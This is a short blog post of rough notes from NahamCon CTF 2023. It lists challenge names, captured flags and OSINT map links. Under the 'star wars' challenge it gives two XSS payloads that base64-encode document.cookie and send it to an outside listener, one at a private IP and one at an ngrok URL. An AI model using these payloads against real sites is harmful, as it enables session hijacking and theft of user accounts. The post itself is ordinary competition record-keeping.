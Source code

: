 +++
title = "Nahamcon CTF 2023"
date = "2023-06-19"

[taxonomies]
tags=["ctf"]

[extra]
#repo_view = true

+++

Hello all! 
I played <a href= "https://ctftime.org/event/2023" target=_blank>NahamCon CTF 2023</a> which was happened from  16 June to 18 June.

I solved 10+ challs, A bit busy to write crear writeups, See you again...


Dirty writeup.txt used during CTF

```text
Blur Glasses

	flag½₧8084e4530cf649814456f2a291eb81e9½―
	flag{8084e4530cf649814456f2a291eb81e9}

Ninety One
	
	Base 91
	flag{dfb88c7d9ca38e71dc27e1072fc43d1b}

blobber 
	solv.py
	Tlag{b93a6292f3491c8e2 f6cdb3addb5 f588}
	flag{b93a6292f3491c8e2f6cdb3addb5f588}

RSAintro
	solve.py

disinfect
	solv.py
	flag{b00acdc78749b378f8f4889f8243789304abe928}

Open Sesame
	flag{85605e34d3d2623866c57843a0d2c4da}

jom 
	flag{aad9ba9b3fdfa4cc6f7e2e18d0dcbbab}

JNInjaspeak
	strings
	flag{1f539e4a706e6181dae9db3fad6a78f1}

star wars
	0.tcp.in.ngrok.io:19073
	<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>
	<script>var i=new Image(); i.src="https://16c1-103-225-13-242.ngrok-free.app?cookie="+btoa(document.cookie);</script>

OSINT 2
	Medicean fortress, Portoferraio

	https://www.google.com/maps/@42.812475,10.3262776,3a,75y,34.04h,87.18t/data=!3m8!1e1!3m6!1sAF1QipMRS4U4f6Q44jxZgF8m04lvq6lcm4aiEScSDmoE!2e10!3e11!6shttps:%2F%2Flh5.googleusercontent.com%2Fp%2FAF1QipMRS4U4f6Q44jxZgF8m04lvq6lcm4aiEScSDmoE%3Dw203-h100-k-no-pi-0.46432817-ya247.71796-ro2.4712446-fo100!7i7680!8i3840?entry=ttu

	flag{e54fcc18854f0adfdedf22120c346b3a}

OSINT - 3

	https://www.google.com/maps/@40.77165,-73.9758633,3a,75y,198.83h,91.99t/data=!3m8!1e1!3m6!1sAF1QipM4LLrW5CMXbY9Sjfw1fMoL4BeanJ58aABFfdt9!2e10!3e11!6shttps:%2F%2Flh5.googleusercontent.com%2Fp%2FAF1QipM4LLrW5CMXbY9Sjfw1fMoL4BeanJ58aABFfdt9%3Dw203-h100-k-no-pi-0-ya168.96263-ro-0-fo100!7i8704!8i4352?entry=ttu


OSINT - 4
	Schloss Ebenfurth

	https://www.google.com/maps/@47.877623,16.36251,3a,75y,268.04h,78.87t/data=!3m8!1e1!3m6!1sAF1QipM-qSFbaE1r_waaZ7aay0NHN6NLwUf8-lVJtgxA!2e10!3e11!6shttps:%2F%2Flh5.googleusercontent.com%2Fp%2FAF1QipM-qSFbaE1r_waaZ7aay0NHN6NLwUf8-lVJtgxA%3Dw203-h100-k-no-pi-10-ya160-ro0-fo100!7i8192!8i4096?entry=ttu
```

***